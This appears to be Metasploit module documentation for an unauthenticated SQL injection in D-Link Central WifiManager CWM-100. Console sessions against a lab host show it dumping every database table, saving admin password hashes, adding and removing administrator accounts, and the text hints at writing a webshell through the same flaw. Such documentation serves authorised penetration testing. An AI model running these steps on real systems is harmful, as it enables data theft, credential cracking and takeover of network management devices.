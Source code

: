 ## Vulnerable Application

This module exploits a vulnerability in Dlink Central
WifiManager (CWM-100), found in versions lower than
v1.03R0100_BETA6, allowing unauthenticated users to
execute arbitary SQL queries.

This module has 3 actions:
1) Data retrieval: saves each table as a `.csv` file in your
loot directory, and saves credentials for future cracking.
2) Creation of an admin user.
3) Removal of an admin user.
Has been tested with 1.03r098.

## Verification Steps

1. Download the vulnerable software, and install it
- Run the vulnerable software, downloadable from
  [here](https://supportannouncement.us.dlink.com/announcement/publication.aspx?name=SAP10117).
- direct download link:
  `ftp://ftp2.dlink.com/SOFTWARE/CENTRAL_WIFI_MANAGER/CENTRAL_WI-FI_MANAGER_1.03.zip
2. Reproduction steps
- Run `msfconsole`
- set rhosts ...
- set action ...
- `check` or `exploit`
- should work as in the scenarios below

## Actions

```
msf5 auxiliary(sqli/dlink/dlink_central_wifimanager_sqli) > show actions

Auxiliary actions:

   Name         Description
   ----         -----------
   ADD_ADMIN    Add an administrator user
   REMOVE_ADMIN Remove a user
   SQLI_DUMP    Retrieve all the data from the database

```

## Options

```
msf5 auxiliary(sqli/dlink/dlink_central_wifimanager_sqli) > show options

Module options (auxiliary/sqli/dlink/dlink_central_wifimanager_sqli):

   Name            Current Setting  Required  Description
   ----            ---------------  --------  -----------
   Admin_Password  anything         no        The password of the user to add/edit
   Admin_Username  red0xff          no        The username of the user to add/remove
   Proxies                          no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS          192.168.1.223    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT           443              yes       The target port (TCP)
   SSL             true             no        Negotiate SSL/TLS for outgoing connections
   TARGETURI       /                yes       The base path to DLink CWM-100
   VHOST                            no        HTTP server virtual host

```

## Scenarios

This module has both `check` and `run` functions.

### Retrieving all the data from the database

```
msf5 > use auxiliary/sqli/dlink/dlink_central_wifimanager_sqli 
msf5 auxiliary(sqli/dlink/dlink_central_wifimanager_sqli) > set action SQLI_DUMP 
action => SQLI_DUMP
msf5 auxiliary(sqli/dlink/dlink_central_wifimanager_sqli) > set rhosts 192.168.1.223
rhosts => 192.168.1.223
msf5 auxiliary(sqli/dlink/dlink_central_wifimanager_sqli) > check 

[+] 192.168.1.223:443 - The target is vulnerable.
msf5 auxiliary(sqli/dlink/dlink_central_wifimanager_sqli) > run
[*] Running module against 192.168.1.223

[+] Target seems vulnerable
[+] DBMS version: PostgreSQL 9.1.0, compiled by Visual C++ build 1500, 32-bit
[*] Enumerating tables
[+] grouptossltable saved to /home/redouane/.msf4/loot/20200828180148_default_192.168.1.223_dlink.http_187571.csv
[+] paypalsettingtable saved to /home/redouane/.msf4/loot/20200828180149_default_192.168.1.223_dlink.http_642251.csv
[+] ordertable saved to /home/redouane/.msf4/loot/20200828180149_default_192.168.1.223_dlink.http_944954.csv

...

[+] tempstationtable saved to /home/redouane/.msf4/loot/20200828180505_default_192.168.1.223_dlink.http_577215.csv
[+] Saved credentials for admin
[+] Saved credentials for red0xff
[+] usertable saved to /home/redouane/.msf4/loot/20200828180153_default_192.168.1.223_dlink.http_608945.csv

...

[+] devicesnmpsecuritytable saved to /home/redouane/.msf4/loot/20200828180154_default_192.168.1.223_dlink.http_825556.csv
[*] Auxiliary module execution completed
msf5 auxiliary(sqli/dlink/dlink_central_wifimanager_sqli) > 
msf5 auxiliary(sqli/dlink/dlink_central_wifimanager_sqli) > creds
Credentials
===========

host  origin         service  public   private                           realm  private_type        JtR Format
----  ------         -------  ------   -------                           -----  ------------        ----------
      192.168.1.223           admin    21232f297a57a5a743894a0e4a801fc3         Nonreplayable hash  raw-md5
      192.168.1.223           red0xff  f0e166dc34d14d6c228ffac576c9a43c         Nonreplayable hash  raw-md5

msf5 auxiliary(sqli/dlink/dlink_central_wifimanager_sqli) > 
msf5 auxiliary(sqli/dlink/dlink_central_wifimanager_sqli) > loot

Loot
====

host           service  type        name                         content          info  path
----           -------  ----        ----                         -------          ----  ----
192.168.1.223           dlink.http  biggrouptable.csv            application/csv        /home/redouane/.msf4/loot/20200828180503_default_192.168.1.223_dlink.http_360290.csv
192.168.1.223           dlink.http  devicetable.csv              application/csv        /home/redouane/.msf4/loot/20200828180503_default_192.168.1.223_dlink.http_230830.csv

...

ult_192.168.1.223_dlink.http_878195.csv
192.168.1.223           dlink.http  devicesnmpsecuritytable.csv  application/csv        /home/redouane/.msf4/loot/20200828180506_default_192.168.1.223_dlink.http_086271.csv

msf5 auxiliary(sqli/dlink/dlink_central_wifimanager_sqli) > 
```

### Adding an admin user/changing the password of a user

```
msf5 auxiliary(sqli/dlink/dlink_central_wifimanager_sqli) > set action ADD_ADMIN 
action => ADD_ADMIN
msf5 auxiliary(sqli/dlink/dlink_central_wifimanager_sqli) > set Admin_Username msfadmin
Admin_Username => msfadmin
msf5 auxiliary(sqli/dlink/dlink_central_wifimanager_sqli) > set Admin_Password msfadmin
Admin_Password => msfadmin
msf5 auxiliary(sqli/dlink/dlink_central_wifimanager_sqli) > run
[*] Running module against 192.168.1.223

[+] Target seems vulnerable
[*] User not found on the target, inserting
[*] Auxiliary module execution completed
msf5 auxiliary(sqli/dlink/dlink_central_wifimanager_sqli) > set Admin_Password msfpassword
Admin_Password => msfpassword
msf5 auxiliary(sqli/dlink/dlink_central_wifimanager_sqli) > run
[*] Running module against 192.168.1.223

[*] Trying to detect installed version
[+] Target seems vulnerable
[*] User already exists, updating the password
[*] Auxiliary module execution completed
msf5 auxiliary(sqli/dlink/dlink_central_wifimanager_sqli) > 
```

### Deleting an administrator user

```
msf5 auxiliary(sqli/dlink/dlink_central_wifimanager_sqli) > set action REMOVE_ADMIN 
action => REMOVE_USER
msf5 auxiliary(sqli/dlink/dlink_central_wifimanager_sqli) > set Admin_Username red0xff
Admin_Username => red0xff
msf5 auxiliary(sqli/dlink/dlink_central_wifimanager_sqli) > run
[*] Running module against 192.168.1.223

[+] Target seems vulnerable
[*] Auxiliary module execution completed
```

### Going further

It is possible to upload arbitary files to the target system using queries of the form
(copy ... to ...), but using full paths, the attacker must know the path of the webroot
to upload a webshell this way.

